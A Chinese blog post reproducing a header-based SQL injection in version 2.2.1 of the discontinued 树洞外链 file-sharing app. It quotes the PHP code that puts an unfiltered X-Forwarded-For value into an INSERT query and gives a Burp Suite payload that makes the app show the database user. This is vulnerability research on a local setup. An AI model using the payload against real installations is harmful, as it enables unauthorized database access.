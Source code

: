 ```yaml
---
title: 树洞外链X_FORWARDED_FOR注入漏洞复现
date: 2019-07-25 14:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - 树洞外链
---
```

# 一、漏洞概述
树洞外链现在已经停止更新，作者又开发了[Cloudreve](https://github.com/cloudreve/Cloudreve)，有兴趣可以了解一下。
回归正题，虽然树洞已经停止更新了，还是可以做一些研究学习。
树洞外链存在X_FORWARDED_FOR注入漏洞，最新版本的已经修复了，2.2.1版本的可以复现。

***
# 二、漏洞分析
在`/includes/function.php`的37行左右，获取了X_FORWARDED_FOR，并未做防注入过滤 
```
function get_real_ip(){
$ip=false;
if(!empty($_SERVER["HTTP_CLIENT_IP"])){
$ip = $_SERVER["HTTP_CLIENT_IP"];
}
if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
for ($i = 0; $i < count($ips); $i++) {
if (!eregi ("^(10|172\.16|192\.168)\.", $ips[$i])) {
$ip = $ips[$i];
break;
}
}
}
return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```
然后在`includes/save.php`  20行左右发现调用`get_real_ip()`函数
```
$ip=get_real_ip();
$dd=date('Y-m-d H:i:s');
$rand = md5(time() . mt_rand(0,1000));
$stmt = $con->prepare("INSERT INTO  `$sqlname`.`sd_file` (`ming` ,`key1` ,`uploadip` ,`uploadtime` ,`cishuo` ,`upuser` ,`policyid`)VALUES (?, '$rand', '$ip', '$dd', '0' , '$uploadUser', '$policyId');");

$stmt->bind_param('s', $ming);
```

***
# 三、漏洞复现
下载树洞外链源码，本地搭建环境。
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726110921.png)

注册账号登陆，然后打开burpsuite，关掉拦截
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111147.png)
然后上传文件，在HTTP history里找到`/includes/save.php`,发送到Repeater
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111306.png)
构造payload并发送
```
X-Forwarded-For: 1.1.1.1′,user(),’0′,1,1); #

ming=aa
```
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111644.png)

然后在**我的文件**里面可以看到执行结果
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111744.png)

***
# 参考文章
[代码审计树洞X_FORWARDED_FOR注入](https://www.freebuf.com/column/179363.html)
[代码审计之头部注入X-Forwarded-For](https://blog.csdn.net/qq_21510303/article/details/91886405)